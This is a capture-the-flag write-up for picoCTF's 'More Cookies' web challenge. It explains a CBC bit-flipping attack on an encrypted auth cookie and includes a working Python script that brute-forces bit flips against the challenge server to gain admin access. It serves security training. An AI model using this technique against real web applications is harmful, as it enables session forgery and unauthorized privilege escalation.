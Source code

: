 # Writeup - More Cookies
Category: Web Exploitation, Points: 90


## Descpriton

> I forgot Cookies can Be modified Client-side, so now I decided to encrypt them! 

A link is given [link](http://mercury.picoctf.net:34962/)


## Vulnerability

We click the link go to the cookies section in DevTools - right click, Inspect Element, then Application > Cookies. Then in the `auth_name` section you will find an encrypted string.

It looks something like this:
```
c1lLNXBMYkxacDRaMjNCQUxIYzY4dUtQUlpsRGJtNlB0ZVZSMDZqTnVpVitZV3JZMDF2RFU1Q1NPa2t2RG5QVVJ4TjFVVVYxd0ljYXdCemZ2Q2ZrVDJpVmN6Smd1MkQ5L3NpdjNnWkczTlRMVHorY0RML1BkNExnWUlNWnJoMy8=
```

Now if we look at the problem Descpriton carefully, the letters `CBC` is capitalized. If we google `CBC encryption` we get the relavant information about the encryption method. The given string is CBC encrypted.

When I first tried to solve it. I first thought the goal of this challange was to decrypt the `auth_name` string. 

But I realized later that the goal is actually to manipulate the `auth_name` string so that when we send it we get the flag.


## Exploit

So the idea is somewhere there is an admin bit in the `auth_name` string, which is set to `0`. We need to reset this bit to `1`. 

Now, if we XOR `0` with `1` you get `1`, quite straightforward, but in this case we don't know the *position* of the bit.

So, the idea is to flip each bit in the string, send it, and check for the flag.

How do we do this?

1. We decode the string - in this case base64.
2. We flip one bit.
3. We encode the bit-flipped plaintext.
4. We send it as the `auth_name` cookie.
5. Repeat this for every bit in the string.

The exploit:

```python
import tqdm
import base64
import requests

ADDRESS = "http://mercury.picoctf.net:34962"

s = requests.Session()
s.get(ADDRESS)
cookie = s.cookies["auth_name"]
raw_cookie = base64.b64decode(base64.b64decode(cookie))

for posi in tqdm.tqdm(range(len(raw_cookie))):
  for biti in range(0, 8):
    bitflip = (
      raw_cookie[0:posi] +
      ((raw_cookie[posi] ^ (1 << biti)).to_bytes(1, "big")) +
      raw_cookie[posi+1:]
    )
    guess = base64.b64encode(base64.b64encode(bitflip)).decode()
    r = requests.get(ADDRESS, cookies={"auth_name":guess})
    if "picoCTF" in r.text:
      print(f"found in byte {posi}, in bit {biti}")
      print(r.text)
```

you should get the flag.

## References
[Link1](https://github.com/HHousen/PicoCTF-2021/blob/master/Web%20Exploitation/More%20Cookies/README.md)  
[Link2](https://www.youtube.com/watch?v=Fs3EbH-Wdhc)  

